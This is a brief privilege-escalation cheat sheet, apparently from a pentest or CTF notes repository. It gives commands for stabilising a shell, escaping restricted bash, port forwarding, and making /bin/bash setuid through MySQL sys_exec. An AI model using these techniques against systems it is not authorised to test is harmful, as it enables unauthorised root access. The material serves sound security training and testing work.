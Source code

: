 # PrivEsc

/!\ To get a nice TTY :
```python -c 'import pty;pty.spawn("/bin/bash")'```
CTRL + Z
```stty raw -echo``` 
## Linux

### Checklist

* Checking sudo : ```sudo -l```
* Checking netstat : ```netstat -laputen```
* Checking process : ```ps -elf```
### Escaping rbash

```awk 'BEGIN {system("/bin/sh")}'```

### SSH Port fowarding 

Service listen on local on port 1234.

```ssh user@remotemachine-L 80:localhost:1234```

Now naviguate to localhost:80
### Binaries

Binaries that can be exploited : https://gtfobins.github.io

### MySQL

Execute command : ```mysql -u [user] -p -e "COMMAND HERE"``` 
Execute command as MySQL process owner : ```mysql> SELECT sys_exec('chmod u+s /bin/bash');``` 

## Windows

### Simple Tricks

* ```dir /ah``` to display hidden files
